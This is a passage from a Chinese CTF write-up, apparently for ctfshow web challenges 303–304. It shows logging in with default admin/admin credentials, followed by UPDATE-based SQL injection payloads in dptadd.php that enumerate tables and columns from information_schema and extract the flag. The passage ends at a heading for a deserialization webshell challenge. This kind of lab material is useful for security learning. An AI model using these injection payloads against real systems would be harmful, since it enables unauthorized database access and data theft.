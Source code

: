 username长度不得超过6，所以方法不奏效了~
并且引用了fun.php，加了一句`echo sds_decode("admin");`
那么尝试admin/admin登入

成功，然后就是在dptadd.php里注入了

```
dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

```
dpt_name=1',sds_address=(select group_concat(column_name) from information_schema.columns where table_name='sds_fl9g')--+
```

```
dpt_name=1',sds_address=(select flag from sds_fl9g)--+
```

![](https://i.loli.net/2021/10/06/kBmEWNKOJ6AGSLU.png)



## 304 sql注入

> hint:
>
> 增加了全局waf
>
> ```php
> function sds_waf($str){
> 	return preg_match('/[0-9]|[a-z]|-/i', $str);
> }
> ```
>
> 

奇怪的是没发现waf，上面的payload还是能用，只不过改了表名：sds_flaag

```
dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

```
dpt_name=1',sds_address=(select group_concat(column_name) from information_schema.columns where table_name='sds_flaag')--+
```

```
dpt_name=1',sds_address=(select flag from sds_flaag)--+
```



## 305 反序列化传马
